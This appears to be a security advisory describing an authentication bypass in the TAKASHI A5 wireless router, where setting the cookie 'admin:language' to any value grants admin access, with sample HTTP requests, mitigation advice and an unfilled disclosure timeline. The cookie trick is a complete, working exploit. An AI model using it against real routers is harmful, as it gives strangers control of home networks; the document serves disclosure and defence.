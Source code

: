 # TAKASHI Wireless Instant Router and Repeater - Authentication Bypass Vulnerability

## Overview
A critical authentication bypass vulnerability has been identified in the TAKASHI Wireless Instant Router and Repeater (Model A5) running firmware version **V5.07.38_AAL03** with hardware version **V3.0**. This vulnerability allows unauthorized users to gain administrative access due to improper session management.

## Affected Model
- **Model**: A5  
- **Software Version**: V5.07.38_AAL03  
- **Hardware Version**: V3.0  

## Vulnerability Details
The web application does not properly validate session data, allowing attackers to manipulate cookies and bypass authentication. By setting a specific cookie value, an attacker can gain admin-level access without valid credentials.

## Request Comparison
To understand how this vulnerability works, let's compare an unauthenticated request to an authenticated request.

### Unauthenticated Request
```
POST /LoginCheck HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.1/login.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.2.1
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Username=admin&checkEn=0&Password=whatsthepassword
```

### Authenticated Request
```
GET /wireless_basic.asp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.1/advance.asp
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en; admin:language=en
Upgrade-Insecure-Requests: 1
Priority: u=4
```

## Key Difference
The key difference between the two requests is the presence of the following cookie:
```
admin:language=en
```

## The Vulnerability
The application trusts the `admin:language` cookie without properly verifying session authentication. By simply adding this cookie with an arbitrary value, an unauthenticated user can gain full administrative access.

### Exploit Mechanics
An attacker can exploit this vulnerability by setting the following cookie:
```
admin:language=<any_value>
```
Where `<any_value>` can be any string, text, or number. As long as the cookie is present, the application will treat the user as an authenticated admin.

## Impact
- Unauthorized users can gain admin-level access without valid credentials.
- Attackers can modify router settings, expose sensitive data, and potentially disrupt network operations.
- No brute-force or credential stuffing is needed—just cookie manipulation.

## Mitigation
To mitigate this issue, the following steps should be taken:
1. **Proper Session Management**: Implement server-side session validation instead of relying on client-side cookies.
2. **Token-Based Authentication**: Use secure session tokens that cannot be forged.
3. **Session Expiry**: Ensure sessions expire and require re-authentication after a set period.
4. **Cookie Integrity Checks**: Validate cookies against an active session in the backend database.

## Disclosure Timeline
- **Discovery**: [Insert Date]  
- **Vendor Notified**: [Insert Date]  
- **Patch Released**: [Pending/Date]  
- **Public Disclosure**: [Insert Date]  

## References
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [GoAhead Web Server](https://www.embedthis.com/goahead/)

## Disclaimer
This vulnerability report is for educational and research purposes only. The information provided should not be used for malicious activities. Always obtain proper authorization before testing security vulnerabilities on any system.

---

**Contributors**  
- William James Schleppegrell


